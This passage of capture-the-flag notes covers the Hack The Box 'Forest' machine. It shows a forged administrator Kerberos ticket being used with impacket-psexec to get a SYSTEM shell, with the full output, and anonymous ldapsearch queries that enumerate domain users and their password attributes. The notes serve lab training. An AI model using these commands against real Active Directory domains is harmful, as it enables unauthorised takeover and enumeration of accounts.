 ```
			- The name of the box is forest so we add forest and htb (forest.htb) to /etc/hosts
- Then we add the ccache to KRB5CCNAME and attempt to use psexec to login with kerberos auth (wmiexec doesnt work, because psexec doesn't alwasys impersonate the service)
	```bash
export KRB5CCNAME=administrator.ccache
impacket-psexec -k -no-pass htb.local/administrator@forest

---OUTPUT---
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on forest.....
[*] Found writable share ADMIN$
[*] Uploading file GTjEHiBz.exe
[*] Opening SVCManager on forest.....
[*] Creating service vmhZ on forest.....
[*] Starting service vmhZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 

```
	- If we query user (and we enteredd a random user instead of admin during ticketer) it would respond with `No user exists for `\*\r\n` 
		- we could not use IP Addresses anywhere in the command and need FQDN for the domain.  Create entries in Host file if DNS is not there.
## Password List generation and LDAP queries
- **LDAP Queries**
	- In our LDAP search we used grep to find usernames. We can instead use queries in our LDAP search. 
		- That's actually how ldapsearch is supposed to be used.
			- You select the scope (DC=htb,DC=local) and target and then we query it to get an output
				```bash
# Dump things only with Object Class "Person"
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" '(ObjectClass=Person)'
# Dump things only with Object Class "Organizational Person"
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" '(ObjectClass=organizationalPerson)'
# Dump things only with Object Class "user"
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" '(ObjectClass=user)'
```
	- Can see when 
		- users were created (FORMAT : YYYY-MM-DD-HH-MM-SS), 
		- the object class
		- Successful Login Count
		- Bad Password Attempts
		- Potential email addresses
		- sAMAccountName (username) and sAMAccountType
			- Search for all sAMAccountName and sAMAccountTyoe
				```bash
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" '(ObjectClass=user) sAMAccountName sAMAccountTyoe > ldapquery
```
		- Password Last Set